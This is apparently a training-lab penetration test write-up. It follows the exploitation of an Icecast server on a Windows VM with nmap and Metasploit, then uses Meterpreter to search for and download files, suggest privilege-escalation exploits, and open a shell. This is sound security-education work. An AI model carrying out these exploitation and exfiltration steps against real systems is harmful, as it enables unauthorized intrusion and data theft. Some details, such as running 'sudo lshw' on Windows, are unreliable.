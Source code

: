 # Penetration_Test_Engagement
Internal penetration test on GoodCorp's CEO, Hans Gruber. The objective is to exploit any vulnerable software and find company files on the CEO's computer.

#### Background

- The CEO claims to have passwords that are long and complex and therefore unhackable.
- The penetration test objective is to access the CEO's computer, and using a Meterpreter session, to search for two files that contain the strings `recipe` and `seceretfile`.

#### Setup 

- Logged onto DVW10 virtual machine.
- Icecast server started to emulate the CEO's computer. 

#### Scope 

- Limited to CEO's workstation only. Only the CEO's IP address can be exploited.
- No other IP addresses to be scanned
- DOS and brute force attacks are prohibited
- No file deletions permissible
- No config changes permissible

#### Deliverable

- All findings were submitted via a report called 'Report.docx'. [Report.docx](Report.docx)

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: 
      First, I needed to work out what IP address the CEO's computer was using. I knew that the network was using the 192.168.0.? range.
      I used nmap
      **nmap -sV "192.168.0.20"**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1701.png)

2. Start SearchSploit

    - Run the SearchSploit commands to show available Icecast exploits.
  
      > Answer: 
      command to run is:
      **searchsploit icecast**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1703.png)
      
3. Start Metasploit

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **msfconsole**
      
4. Search for the Icecast module and load it for use

    - Run the command that starts Metasploit:
  
      > Answer: 
      command to run is:
      **search icecast**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1705.png)
      
    - Run the command to use the Icecast module:
    
      > Answer: 
      command to run from Metasploit is:
      **use 0 (0 being the first (and in this case only) module available to be run. We can use the shortcut so we don’t need to type or copy and paste the full module name).**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1706.png)
      
      Next I ran the command to show what options were available within the module:
      **show options**

      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1707.png)
      
5. Set the 'RHOST' to the target machine

    - Run the command that sets the 'RHOST':
  
      > Answer: 
      command to run is:
      **set RHOSTS 192.168.0.20**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1708.png)
      
6. Run the Icecast exploit

    - Run the command that runs the Icecast exploit:
  
      > Answer: 
      command to run is:
      **run (exploit will also work)**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1709.png)
      
    - Run the command that performs a search for the `secretfile.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *secretfile.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1710.png)
      
7. Now that a Meterpreter session is open:

    - Run the command to performs a search for the `recipe.txt` on the target:
  
      > Answer: 
      command to run is:
      **search -f *recipe.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1711.png)
     
    - Run the command that exfiltrates the `recipe*.txt` file:
    
      > Answer: 
      command to run is:
      **download Drinks.recipe.txt**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1712.png)
      
      **I then used the ‘cat’ command to view the contents of both .txt files. The second txt file’s contents contains bank account details.**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1713.png)      
      
      **I then checked that the file has downloaded to my Kali VM:** (using **ls** command)
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1714.png)
      
8. Use Meterpreter's local exploit suggester to find possible exploits:

    - Check for common vulnerabilities:
  
      > Results: 
      I used Meterpreter to check for common vulnerabilities. 
      using the command
      **run post/multi/recon/local_exploit_suggester**
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1715.png)    
      
      **The two exploits of concern are
      **•	ikeext_service**
      **•	ms16-075**

      The ikeext services exploit module exploits a missing DLL loaded by the 'IKE and AuthIP Keyring Modules' (IKEEXT) service which runs as SYSTEM, and starts automatically in default installations of Vista-Win8. It requires an insecure bin path to plant the DLL payload.

      The ms16-075 exploit is a security update that resolves a vulnerability in Microsoft Windows that could allow elevation of privilege if an attacker logs on to the system and runs a specially crafted application.
       
#### Bonus
      
A. Run a Meterpreter post script that enumerates all logged on users.

    - **I googled meterpreter enumerate all logged on users**
    
      > Answer:
      **I found the following blog helpful, and I tested various meterpreter commands:**
      https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/
      
      Meterpreter discovered two possible vulnerabilities:
    
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1716.png)   
      
B. Open a Meterpreter shell and gather system information for the target:     

      > Answer: 
      command to run is:
      **shell**
      
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1717.png)
      ![](https://github.com/paulsbarrett/Penetration_Test_Engagement/blob/images/penetration-1718.png)
      
C. Run the command that displays the target's computer system information:     

      > Answer: 
      command to run is:
      **sudo lshw**   
